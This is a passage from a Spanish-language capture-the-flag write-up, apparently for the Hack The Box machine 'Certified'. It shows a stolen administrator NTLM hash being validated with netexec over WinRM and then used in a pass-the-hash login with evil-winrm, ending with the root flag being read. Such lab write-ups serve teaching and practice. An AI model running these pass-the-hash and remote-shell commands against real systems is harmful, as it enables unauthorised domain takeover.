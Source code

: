 - Ahora validamos que el `hash` es correcto.

```bash
❯ netexec winrm 10.10.11.41 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\administrator:0d5b49608bbce1751f708748f67e2d34 (Pwn3d!)
```

- Ahora nos conectamos y obtenemos la root flag.

```bash
❯ evil-winrm -i 10.10.11.41 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
c1c3bcb2996d3b3914902cb4effbb408
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
